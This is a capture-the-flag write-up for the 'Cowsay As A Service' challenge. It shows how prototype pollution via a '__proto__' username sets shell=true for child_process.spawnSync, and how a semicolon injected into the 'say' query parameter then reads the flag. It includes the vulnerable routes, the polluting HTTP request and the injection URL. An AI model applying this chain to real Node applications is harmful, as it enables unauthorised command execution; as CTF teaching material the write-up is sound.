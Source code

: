 ```yaml
---
description: Prototype pollution leads to RCE
---
```


# Cowsay As A Service

## Description

Enjoy your cowsay life with our Cowsay as a Service!\
You can spawn your private instance from https://cowsay-as-a-service.chal.acsc.asia/.\
\
Notice: Please do not spawn too many instances since our server resource is limited.\
You can check the source code and run it in your local machine before do that.\
Each instances are alive only for 5 minutes.\
But don't worry! You can spawn again even if your instance expired.\


`https://cowsay-as-a-service.chal.acsc.asia/`

{% file src="../../.gitbook/assets/cowsay-as-a-service.tar.gz_b1f19fe170867369eb5297d2b9d4cc29.gz" %}
Challenge Files
{% endfile %}

## Solution

The `/usr/games/cowsay` game is run from `child_process.spawnSync`.

```javascript
router.get('/cowsay', (ctx, next) => {
  const setting = settings[ctx.state.user];
  const color = setting?.color || '#000000';

  let cowsay = '';
  if (ctx.request.query.say) {
    const result = child_process.spawnSync('/usr/games/cowsay', [ctx.request.query.say], { timeout: 500 });
    cowsay = result.stdout.toString();
  }
```

The settings endpoint sets the settings for `ctx.state.user`, which is also equal to the `username` cookie. The setting name is also user-controlled.

```javascript
router.post('/setting/:name', (ctx, next) => {
  if (!settings[ctx.state.user]) {
    settings[ctx.state.user] = {};
  }
  const setting = settings[ctx.state.user];
  setting[ctx.params.name] = ctx.request.body.value;
  ctx.redirect('/cowsay');
});
```

This allows us to perform prototype pollution. I used `__proto__` as the username, which will set settings for `{}.__proto__`. Then, we can use `shell` as the setting name to set `shell=true` for all objects.

```http
POST /setting/shell HTTP/1.1
Host: localhost:3000

...

{
    "value": true
}
```

This makes the command run within a shell, allowing us to perform command injection:

`http://cowsay-nodes.chal.acsc.asia:64280/cowsay?say=test;echo%20$FLAG`

This will output the `FLAG` environment variable.

![](../../.gitbook/assets/813db7ee6ba24656a515c09f5a719ebc.png)

`ACSC{(oo)<Moooooooo_B09DRWWCSX!}`
